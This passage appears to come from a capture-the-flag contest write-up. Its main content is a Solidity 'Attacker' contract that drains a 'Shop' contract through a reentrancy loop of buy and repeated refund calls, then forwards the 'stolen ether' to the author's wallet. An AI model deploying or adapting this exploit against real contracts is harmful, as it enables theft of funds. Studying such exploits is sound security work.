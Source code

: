 Great, we have the main idea, but the hard part is actually coding this up :skull:, so sleeping after day 1 of the contest, I was ready to start researching the hell out of what to do on day 2. After reading a bunch of blog posts and articles, watching yt tutorials, and asking chatgpt. I was able to get a proof of concept working on [remix ide](remix.ethereum.org).

```sol
pragma solidity ^0.6.0;

// define what functions from shop we will use
interface Shop {
        function buy(uint256 item, uint256 quantity) external payable;
        function refund(uint256 item, uint256 quantity) external;
}

contract Attacker {
    address payable owner;
    Shop public shop;
    uint public val;

    constructor(address _victim) public payable {
        shop = Shop(_victim);
        val = 5 ether; // start attack with 5 ether
        owner = payable(msg.sender);
    }

    function attack() public payable {
        require(msg.value >= val, "gimme more monnies");
        // Perform the buy operation with value
        (bool successBuy, ) = address(shop).call.value(val)(abi.encodeWithSignature("buy(uint256,uint256)", 0, 1));
        shop.refund(0, 1);
    }
    
    /*
        Fallback function
    */
    receive() external payable {
        if (address(shop).balance >= 1 ether) {
          shop.refund(0, 1);
        }
    }

    // send stolen ether back to my wallet
    function sendFunds() public {
        owner.transfer(address(this).balance);
    }

    // check how much ether possessed for debugging
    function getBalance() external view returns (uint) {
        return address(this).balance;
    }
}
```
